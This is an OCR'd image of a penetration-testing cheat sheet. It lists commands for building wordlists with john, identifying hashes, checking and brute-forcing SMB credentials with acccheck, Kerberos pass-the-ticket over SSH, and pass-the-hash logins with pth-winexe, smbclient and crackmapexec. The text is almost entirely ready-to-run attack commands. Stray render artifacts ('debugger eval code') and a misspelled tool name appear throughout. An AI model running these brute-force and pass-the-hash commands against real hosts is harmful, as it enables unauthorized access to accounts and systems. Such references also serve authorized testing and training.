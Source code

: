 # Create wordlist using the defined rule
$ john --wordlist=osbornepro-wordlist.txt --rules --stdout &gt; /tmp/new-wordlist.txt
      debugger eval code:1:62
hashid '$6$asdasdaaaaaaaaaaaaaaaaaaaaa'

# Interactive GUI Tool
hash-identifier
      debugger eval code:1:62
# SMB Credential Check
acccheck -t 10.0.0.1 -u rosborne -p Password123!

# SMB Brute Force
acccehck -t 10.0.0.1 -U user.lst -P pass.lst
acccehck -T host.lst -U user.lst -P pass.lst

# Install acccheck
wget https://labs.portcullis.co.uk/download/acccheck-0-2-1.tar.gz; tar xf acccheck-0-2-1.tar.gz; rm acccheck-0-2-1.tar.gz; cd acccheck-0-2-1/; mv acccheck.pl /usr/local/sbin/acccheck
      debugger eval code:1:62
# SSH (Can Pass the Ticket Only)
ssh -o GSSAPIAuthentication=yes rosborne@osbornepro.com -vv
# Look for the line
#    "No Kerberos credentials available (default cache: FILE:/tmp/krb5cc_1045)"
# Copy your ticket to the expected location
cp rosborne.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes rosborne@osbornepro.com

# SMB PTH
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:&lt;ntlm hash&gt; //10.0.0.1 cmd
pth-smbclient //10.0.0.1/C$ -U osbornepro.com/rosborne%aad3b435b51404eeaad3b435b51404ee:&lt;ntlm hash&gt;
smbclient -U osbornepro.com/rosborne%hash:hash -n &lt;netbios name&gt; -W osbornepro.com //10.0.0.1/share$
smbclient //10.0.0.1/C$ -U rosborne --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W osbornepro.com
crackmapexec 10.0.0.1 -u user -H &lt;hash&gt;
